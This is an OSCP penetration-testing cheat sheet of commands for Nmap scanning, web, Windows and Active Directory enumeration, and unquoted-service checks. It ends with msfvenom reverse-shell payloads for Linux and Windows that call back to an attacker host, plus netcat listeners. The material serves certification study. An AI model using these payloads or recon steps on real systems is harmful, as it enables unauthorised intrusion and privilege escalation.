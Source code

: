 # OSCP
## NMAP
##### NMAP - TCP PORT QUICK SCAN
```
time nmap -T5 -sS -Pn -p- -oA scan-ports-tcp -vv 192.168.1.1
```
##### FILTER TCP PORT - LINES
```
cat scan-ports-tcp.nmap | grep -v "#" | grep "/tcp" | awk -F"/" '{ print $1}' > tcp-port-lines.txt
```
##### FILTER TCP PORT - CSV
```
cat tcp-port-lines.txt | sed -z 's/\n/,/g;s/,$/\n/'  > tcp-port.csv
```
##### NMAP - TCP PORT CUSTOM SCAN
```
time nmap -A -Pn -vv --script vuln -sV -oA scan-ports-custom 192.168.1.1 -p 22,80
```
```
time nmap -A -Pn -vv --script vuln -sV -oA scan-ports-custom 192.168.1.1 -p `cat tcp-port.csv`
```
##### NMAP - UDP PORT SCAN
```
time nmap -sU -vv -sV -oA scan-udp-1000 192.168.1.1
```
## WEBSERVER ENUMERATION
##### WEBSERVER - WHATWEB
```
time whatweb http://192.168.1.1
```
##### DIRSEARCH - SEARCH FOR DIRECTORIES
```
time dirsearch -u http://192.168.1.1/
```
## WINDOWS ENUMERATION
##### LIST - INSTALLED SOFTWARE
```
$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, Publisher, InstallDate
$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate
$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize
```
##### LIST - UNQUOTED SERVICE
```
cmd /c wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```
```
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
```
##### LIST - PROCESS USING TCP PORT
```
netstat -ano -p tcp
```
```
Get-NetTCPConnection |Select-Object -Property LocalPort, State, @{name='ProcessID';expression={(Get-Process -IncludeUserName -Id $_.OwningProcess). ID}}, @{name='ProcessName';expression={(Get-Process -IncludeUserName -Id $_.OwningProcess). Path}} |Format-Table
```
##### LIST - PROCESS LISTENING TCP PORT
```
netstat -ano -p tcp| findstr /I listening
```
```
Get-NetTCPConnection -State Listen
```
##### LIST - PROCESS USING SPECIFIC TCP PORT
```
netstat -ano -p tcp| findstr /I 5040
```
```
Get-NetTCPConnection -State Listen | ?{$_.LocalPort -eq 30900}
```
```
Get-NetTCPConnection |Select-Object -Property LocalPort, State, @{name='ProcessID';expression={(Get-Process -IncludeUserName -Id $_.OwningProcess). ID}}, @{name='ProcessName';expression={(Get-Process -IncludeUserName -Id $_.OwningProcess). Path}} | ?{$_.LocalPort -eq 30900} |Format-Table
```

##### LIST - OWNER OF A PROCESS
```
tasklist /V  |findstr "PID 7580"
```
```
Get-Process -Id 4424 -IncludeUserName | Select-Object -Property ID,ProcessName,UserName
```
##### LIST - OWNER OF A PROCESS USING TCP PORT
```
Get-NetTCPConnection |Select-Object -Property LocalPort, State, @{name='ProcessID';expression={(Get-Process -IncludeUserName -Id $_.OwningProcess). ID}}, @{name='ProcessName';expression={(Get-Process -IncludeUserName -Id $_.OwningProcess). Path}}, @{name='User';expression={(Get-Process -IncludeUserName -Id $_.OwningProcess). Username}}   | Format-Table
```
##### LIST - OWNER OF A PROCESS USING SPECIFIC TCP PORT
```
Get-NetTCPConnection |Select-Object -Property LocalPort, State, @{name='ProcessID';expression={(Get-Process -IncludeUserName -Id $_.OwningProcess). ID}}, @{name='ProcessName';expression={(Get-Process -IncludeUserName -Id $_.OwningProcess). Path}}, @{name='User';expression={(Get-Process -IncludeUserName -Id $_.OwningProcess). Username}}  | ?{$_.LocalPort -eq 30900} | Format-Table
```

## ACTIVE DIRECTORY ENUMERATION
##### LIST - FOREST
```
$MyForest = [System.DirectoryServices.ActiveDirectory.Forest]
$MyForest::GetCurrentForest()
```
##### LIST - FOREST
```
Import-Module activedirectory
$MyForestInfo = Get-ADForest
Write-Host -ForegroundColor Green "Forest Name: $($MyForestInfo.Name)"
Write-Host -ForegroundColor Green "Forest Mode: $($MyForestInfo.ForestMode)"
Write-Host -ForegroundColor Green "Forest Functional Level: $($MyForestInfo.ForestMode)"
```

##### POWERVIEW - IMPORT
```
Import-module .\Microsoft.ActiveDirectory.Management.dll
Import-module .\activedirectory.psd1
```
##### LIST - DOMAIN
```
Get-NetDomain
Get-NetDomain -Domain teste.local
```
##### LIST - ALL DOMAIN GROUPS (1)
```
Get-ADGroup -Filter * 
Get-ADGroup -Filter * | select SamAccountName, objectClass, GroupCategory, GroupScope | ft -AutoSize | Out-String -Width 4096
```
##### LIST - ALL DOMAIN GROUPS (2)
```
Get-ADGroup -Filter * 
Get-ADGroup -Filter * | select SamAccountName, objectClass, GroupCategory, GroupScope | ft -AutoSize | Out-String -Width 4096
```
##### LIST - ALL DOMAIN GROUPS (3)
```
powershell -command "Get-ADGroup -Filter * | select SamAccountName, objectClass, GroupCategory, GroupScope | ft " 
```
##### LIST - ALL DOMAIN GROUPS (4)
```
net group /domain
```
##### LIST - DOMAIN POLICY (POWERVIEW)
```
Get-DomainPolicy
(Get-DomainPolicy)."system access"
```
##### LIST - DOMAIN SID
```
Get-DomainSid
```

## MSFVENOM
##### REVERSE SHELL - LINUX x64
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=666 -f elf -o shell666.elf
```
```
nc -nvlp 666
```
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
##### REVERSE SHELL - WINDOWS x64
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=666 -f exe -o reverse.exe
```
```
nc -nvlp 666
```
## FINDING FILES
##### LINUX - FINDING FILES
```
find / -name local.txt 2> /dev/null
```
